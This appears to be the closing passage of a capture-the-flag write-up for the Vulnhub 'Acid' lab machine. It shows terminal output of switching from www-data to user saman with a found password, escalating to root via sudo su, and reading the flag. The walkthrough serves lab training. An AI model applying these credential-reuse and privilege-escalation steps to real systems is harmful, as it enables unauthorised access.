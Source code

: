As simple as it might be, we can login as the user `saman`, with the password `1337hax0r`. 

```text
www-data@acid:/var/www/html/Challenge/Magic_Box$ su saman
su saman
Password: 1337hax0r

saman@acid:/var/www/html/Challenge/Magic_Box$ 
```

And… this user can get root:

```text
saman@acid:/var/www/html/Challenge/Magic_Box$ sudo su       
sudo su
[sudo] password for saman: 1337hax0r

  ____                            _         _       _   _                 
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/                                                   
root@acid:/var/www/html/Challenge/Magic_Box# 

```
We can now get the flag!

```text
root@acid:~# cat flag.txt
cat flag.txt


Dear Hax0r,


You have successfully completed the challenge.

I  hope you like it.


FLAG NAME: "Acid@Makke@Hax0r"


Kind & Best Regards

-ACID
facebook: https://facebook.com/m.avinash143

```

[VUL]: https://www.vulnhub.com/ "Vulnhub website"
[WPG]: files/img/webpage.png "Webpage"
[LOG]: files/img/login_page.png "Login page"
[DIR]: files/img/dirbuster.png "Dirbuster"
[TCP]: files/img/tcp_stream.png "TCP Stream"